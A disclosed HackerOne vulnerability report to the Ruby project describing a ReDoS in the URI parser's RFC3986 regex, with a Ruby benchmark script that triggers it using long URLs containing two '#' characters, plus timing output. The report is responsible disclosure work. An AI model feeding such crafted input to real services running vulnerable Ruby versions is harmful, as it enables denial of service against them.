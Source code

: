 # URI parser's RFC3986 regular expression has poor performance when there are two # characters, leading to ReDoS

## Report Details
- **Report ID**: 1444501
- **URL**: https://hackerone.com/reports/1444501
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-01-09T14:12:19.295Z
- **Disclosed**: 2023-12-13T14:10:44.216Z

## Reporter
- **Username**: dee-see
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
## Summary

Hello team, I hope you're doing well! The `URI` parser mishandles invalid URLs that have two `#` characters. It does correctly identify that they're invalid, but the regex performs very poorly and execution time grows much faster than the string length.

I found this somewhat accidentally when fuzzing for something else. I'm not sure if you care about such issues but I figured I'd report it anyway. The length of the strings required to actually cause the process to hang are very long, but it's not really an issue when the user-controlled input is sent in a request body.

## Steps to reproduce

Run the following script

```ruby
require 'benchmark'
require 'uri'

def parse(n)
  URI('https://example.com/dir/' + 'a' * n + '/##.jpg')
  rescue URI::InvalidURIError
  # Invalid URI because of the two #
end

n = 50000
Benchmark.bm(7) do |x|
  x.report('Base length') { parse(n) }
  x.report('Length x2  ') { parse(n * 2) }
  x.report('Length x4  ') { parse(n * 4) }
  x.report('Length x8  ') { parse(n * 8) }
end
```

Here's the output on my machine

```plaintext
              user     system      total        real
Base length  1.086961   0.003059   1.090020 (  1.090500)
Length x2    4.415046   0.000000   4.415046 (  4.416986)
Length x4   22.021462   0.003294  22.024756 ( 22.042507)
Length x8  122.695223   0.006653 122.701876 (122.853669)
```

We can see the execution time is roughly quintuples when the string length only doubles.

Here's my Ruby version

```shell
$ ruby -v
ruby 3.1.0p0 (2021-12-25 revision fb4df44d16) [x86_64-linux]
```

## Impact

High resource consumption, reduced performance, denial of service

## Attachments
No attachments
